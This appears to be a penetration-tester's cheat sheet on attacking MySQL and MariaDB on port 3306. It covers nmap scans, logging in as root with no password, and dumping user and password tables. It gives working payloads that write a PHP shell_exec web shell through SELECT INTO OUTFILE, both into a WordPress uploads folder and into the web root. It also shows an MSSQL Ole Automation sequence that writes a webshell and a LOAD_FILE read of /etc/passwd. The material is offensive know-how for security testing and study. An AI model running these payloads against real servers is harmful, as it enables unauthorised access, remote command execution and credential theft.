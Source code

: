 ```yaml
---
title: 3306 mariadb mysql
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - mariadb
  - port 3306
  - mysql
---
```


# 3306 mariaDB - mySQL

## Description

**MySQL**: MySQL is an open-source relational database management system(RDBMS) based on Structured Query Language (SQL). It is developed and managed by oracle corporation and initially released on 23 may, 1995. It is widely being used in many small and large scale industrial applications and capable of handling a large volume of data. After the acquisition of MySQL by Oracle, some issues happened with the usage of the database and hence MariaDB was developed.

**MariaDB**: MariaDB is an open source relational database management system (RDBMS) that is a compatible drop-in replacement for the widely used MySQL database technology. It is developed by MariaDB Foundation and initially released on 29 October 2009. MariaDB has a significantly high number of new features, which makes it better in terms of performance and user-orientation than MySQL.


```shell-session
sudo nmap $ip -sV -sC -p3306 --script mysql*
```

```
sudo nmap -sS -sV --script mysql-empty-password -p 3306 $ip
```



## Connect to database: mariadb

```bash
# -h host/ip   
# -u user As default mariadb has a root user with no authentication
mariadb -h <host/IP> -u root
```


## Connect to database: mysql 

### From Linux

```bash
# -h host/ip   
# -u user As default mysql has a root user with no authentication
mysql --host=INSTANCE_IP --user=root --password=thepassword
mysql -h <host/IP> -u root -p<password>

mysql -u root -h <host/IP>

```

### From windows


```cmd-session
mysql.exe -u username -pPassword123 -h $IP
```
## mariadb commands

```bash
# Get all databases
show databases;

# Select a database
use <databaseName>;

# Get all tables from the previously selected database
show tables; 

# Dump columns from a table
describe <table_name>;

# Dump columns from a table
show columns from <table>;

# Select column from table
select usename,password from users;
```

## Upload a shell 

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql panel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

## mysql basic commands

See [mysql](mysql.md).


```mysql
# Show datases
SHOW databases;

# Show tables
SHOW tables;

# Create new database
CREATE DATABASE nameofdatabase;

# Delete database
DROP DATABASE nameofdatabase;

# Select a database
USE nameofdatabase;

# Show tablesç
SHOW tables;

# Dump content from nameOftable
SELECT * FROM NameOfTable

# Create a table with some columns in the previously selected database
CREATE TABLE person(nombre VARCHAR(255), edad INT, id INT);

# Modify, add, or remove a column attribute of a table
ALTER TABLE persona MODIFY edad VARCHAR(200);
ALTER TABLE persona ADD description VARCHAR(200);
ALTER TABLE persona DROP edad VARCHAR(200);

# Insert a new row with values in a table
INSERT INTO persona VALUES("alvaro", 54, 1);

# Show all rows from table
SELECT * FROM persona

# Select a row from a table filtering by the value of a given column
SELECT * FROM persona WHERE nombre="alvaro";

# JOIN query
SELECT * FROM oficina JOIN persona ON persona.id=oficina.user_id;

# UNION query. This means, for an attack, that the number of columns has to be the same
SELECT * FROM oficina UNION SELECT * from persona;
```


### Enumeration queries 

```mysql
# Show current user
current_user()
user()

# Show current database
database()
```

## Command execution

### Writing files

`MySQL` supports [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) which allows us to execute C/C++ code as a function within SQL, there's one User Defined Function for command execution in this [GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys).

`MySQL` does not have a stored procedure like `xp_cmdshell`, but we can achieve command execution if we write to a location in the file system that can execute our commands. 

- If `MySQL` operates on a PHP-based web server or other programming languages like ASP.NET, having  the appropriate privileges, attempt to write a file using [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) in the webserver directory. 
- Browse to the location where the file is and execute the commands.

```mysql
 SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

- In `MySQL`, a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.
- Settings in the `secure_file_priv`:
	- If empty, the variable has no effect, which is not a secure setting as we can read and write data using `MySQL`:
		
		```mysql
		show variables like "secure_file_priv";
		```

```shell-session

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
```

```cmd-session
# To write files using MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges, and then execute some stored procedures to create the file:

sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE;

# Using MSSQL to Create a File
DECLARE @OLE INT;
DECLARE @FileID INT;
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT;
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1;
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>';
EXECUTE sp_OADestroy @FileID;
EXECUTE sp_OADestroy @OLE;

```

- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.


### Reading files

#### MySQL - Read Local Files in MySQL

If permissions allows it:

```shell-session
select LOAD_FILE("/etc/passwd");
```


